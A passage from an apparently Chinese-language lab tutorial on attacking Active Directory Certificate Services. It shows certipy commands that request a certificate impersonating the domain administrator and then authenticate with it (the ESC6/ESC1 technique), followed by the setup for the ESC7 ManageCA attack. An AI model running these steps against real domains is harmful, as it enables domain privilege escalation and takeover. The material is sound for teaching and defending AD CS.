 重启服务

```plain
net stop certsvc && net start certsvc
```

该攻击与 ESC1 相同，只是您可以选择允许客户端身份验证的任何证书模版

## 漏洞利用

```plain
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -ca penson-ADCS-CA -target 192.168.142.21 -template User -upn administrator@penson.org
```

[![](assets/1708508972-6d6445efb63c6e0ba5e43fec39e1176f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170556-4198b306-cfcf-1.png)

```plain
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.20
```

[![](assets/1708508972-76a20ee8b4cde0de63ba18b5d09fed09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170605-46ec3bca-cfcf-1.png)

# ESC7

ESC7 是指用户拥有 CA 的访问权限 Manage CA，可以使用它来颁发或拒绝待处理的证书请求。从而请求域管证书

## 环境搭建

在 ADCS 服务器上证书颁发机构给 User 添加权限  
在 ADCS 服务器上证书颁发机构给 Users 用户添加“颁发和管理证书”，“管理 CA”权限
